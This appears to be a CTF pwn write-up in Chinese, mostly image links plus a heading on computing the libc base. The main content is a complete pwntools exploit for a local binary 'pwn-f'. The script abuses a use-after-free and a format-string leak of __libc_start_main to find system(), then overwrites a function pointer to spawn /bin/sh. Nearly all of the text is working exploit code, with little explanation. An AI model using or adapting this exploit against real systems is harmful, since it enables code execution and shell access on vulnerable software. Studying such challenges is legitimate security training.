

### 由 system 计算 libc 基址









###  exp

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
s=process("./pwn-f")
libc=ELF("./libc-2.23.so")
f=ELF("./pwn-f")
# gdb.attach(s,"b main")

def create(size,string):
    s.sendlineafter(b"3.quit\n",b"create ")
    s.sendlineafter(b"Pls give string size:",str(size))
    s.sendafter(b"str:",string)# 注意此时不能用sendlineafter，内容中会在后面有一个换行府，在覆盖函数底地址会多覆盖一个字节

def delete(id):
    s.sendlineafter(b"3.quit\n",b"delete ")
    s.sendlineafter(b"id:",str(id))
    s.sendlineafter(b"Are you sure?:",b"yes")


create(8, "ab") 
create(8, "ab") 

delete(1)
delete(0)

create(0x20, b'_libc_s_m+240:%176$pend'.ljust(0x18, b'c') + p8(0xB6))  # 0

delete(1)

s.recvuntil(b"_libc_s_m+240:")
libc_start_main_240= s.recvuntil("end", drop=True) # False是包括end

print(type(libc_start_main_240))
libc_start_main_240=int(libc_start_main_240,16) # 0x 形式的字节的转化为16进制数

system_addr = libc_start_main_240-240-0x20750+0x453a0

print("__libc_start_main_240: " + hex(libc_start_main_240))
print("system address: " + hex(system_addr))

s.sendline("-1")
delete(0)

create(0x20, b"/bin/sh;".ljust(24, b"p") + p64(system_addr))

delete(1)

s.interactive()
```

